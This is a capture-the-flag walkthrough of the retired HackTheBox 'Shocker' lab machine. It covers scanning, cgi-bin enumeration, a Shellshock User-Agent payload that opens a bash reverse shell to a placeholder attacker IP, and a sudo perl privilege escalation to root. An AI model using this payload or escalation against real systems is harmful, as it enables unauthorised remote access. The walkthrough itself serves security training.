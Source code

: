 ```yaml
---
layout: post
title: CTF Walkthrough - HacktheBox Shocker
toc: true
subtitle: Retired Machine
comments: false
---
```


## Shocker ![propic](/pictures/shocker/shocker.png)

Start off with a network scan:
```
nmap -sV -sC -Pn -oA nmap/shocker 10.10.10.56
```
![nmap](/pictures/shocker/nmap.png)

I notice that port 80 & 2222 are open. First, I navigate to the webpage and only see a png file. Knowing that the machine is called shocker, I assume this is vulnerable to shellshock.

To confirm, I run the shellshock nmap script to validate its vulnerability to the attack.

The nmap script's results clearly indicate that the machine is vulnerable as expected. For more enumeration, I will use dirbuster to look for any hidden directories. 

Unfortunately there are no initial directories found, so I leverage dirbuster with the -f flag to find directories with the ending forward slash. The directory cgi-bin was found during the second directory search. 

With this information, I google common script extensions in cgi-bin and find .sh, .cgi, & .pl. Using these script extensions, I run the following command in feroxbuster against the cgi-bin directory:

```
feroxbuster -u http://10.10.10.56/cgi-bin/ -x sh,cgi,pl
```
![ferox](/pictures/shocker/ferox.png)

The user.sh file was found, and shows a basic uptime test script. However, by leveraging burp, I can now use the shellshock vulnerability against the GET cgi-bin/user.sh file to run bash commands. This means that I can create a bash reverse shell with this string inside the user agent:

```
User-Agent: () { :;}; /bin/bash -i >& /dev/tcp/<attacker_ip>/4443 0>&1
```

![burp](/pictures/shocker/burp.png)

With the listener setup on port 4443 on my attacker host, I receive a bash shell under Shelly. This allows me to find the user.txt file under /home/shelly.
![user](/pictures/shocker/user.png)

The first thing I check to escalate privileges is the current sudo permissions. Here, I find that shelly can run sudo privileges on the perl binary in /bin/perl. 

Obtaining root from here is easy as I google GTFOBins and look for sudo perl escalations.

```
sudo perl -e 'exec "/bin/sh";'
```
Finally, I have obtained root and found the root flag under /root/root.txt.
![root](/pictures/shocker/root.png)
